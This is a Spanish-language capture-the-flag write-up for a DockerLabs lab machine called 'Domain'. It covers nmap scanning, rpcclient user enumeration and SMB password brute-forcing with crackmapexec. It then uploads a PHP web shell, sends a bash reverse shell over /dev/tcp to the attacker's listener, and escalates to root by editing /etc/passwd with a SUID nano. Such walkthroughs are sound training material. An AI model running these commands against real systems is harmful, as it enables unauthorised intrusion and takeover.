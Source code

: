 ```yaml
---
title: Domain
author: Ldeluq
date: 2024-12-11 14:10:00 +0800
categories:
  - Ctf
  - DockerLabs
tags:
  - ciber
render_with_liquid: false
---
```


Iniciamos la maquina 

![[Pasted image 20241211145435.png]](/imagenes/Pasted%20image%2020241211145435.png)

escaneamos los puertos `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 

![[Pasted image 20241211145704.png]](/imagenes/Pasted%20image%2020241211145704.png)

entramos en el navegador 

![[Pasted image 20241211145808.png]](/imagenes/Pasted%20image%2020241211145808.png)

intentamos ingresar al samba mediante el usuario anonymous pero no funciona 

![[Pasted image 20241211150002.png]](/imagenes/Pasted%20image%2020241211150002.png)

asi que usamos rpcclient para ver si tenemos suerte y encontramos dos posibles usuarios james y bob   `rpcclient -U "" -N 172.17.0.2`

![[Pasted image 20241211150223.png]](/imagenes/Pasted%20image%2020241211150223.png)

luego hago uso de crackmapexec para usar fuerza bruta y encontrar una contrasena `crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241211150457.png]](/imagenes/Pasted%20image%2020241211150457.png)

encontramos una contrasena para bob-star entramos a samba  `smbmap -H 172.17.0.2 -u 'bob' -p 'star'`   

![[Pasted image 20241211150705.png]](/imagenes/Pasted%20image%2020241211150705.png)

vemos que tenemos permisos de escritura en html asi que probamos si podemos subir una rever shell 

![[Pasted image 20241211151024.png]](/imagenes/Pasted%20image%2020241211151024.png)

![[Pasted image 20241211150920.png]](/imagenes/Pasted%20image%2020241211150920.png)

vamos al navegador si tenemos respuesta 

![[Pasted image 20241211151139.png]](/imagenes/Pasted%20image%2020241211151139.png)

nos colocamos en escucha en la maquina atacante `nc -lvnp 1234`

![[Pasted image 20241211151942.png]](/imagenes/Pasted%20image%2020241211151942.png)

vamos al navegador y ejecutamos `h ttp://172.17.0.2/shell.php?cmd=bash-c"bash-i>%26/dev/tcp/172.17.0.1/12340>%261"` 

![[Pasted image 20241211153316.png]](/imagenes/Pasted%20image%2020241211153316.png)

damos tratamiento de la tty `script /dev/null -c bash`  
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
luego buscamos los servicios con permiso SUID `find / -perm -4000 2>/dev/null`

![[Pasted image 20241211154106.png]](/imagenes/Pasted%20image%2020241211154106.png)

vemos que esta nano asi que intentamos modificar el archivo /etc/passwd usando nano eliminando la x de root

![[Pasted image 20241211155650.png]](/imagenes/Pasted%20image%2020241211155650.png)
pasamos al usuario `su root` y listo conseguido 

![[Pasted image 20241211155939.png]](/imagenes/Pasted%20image%2020241211155939.png)



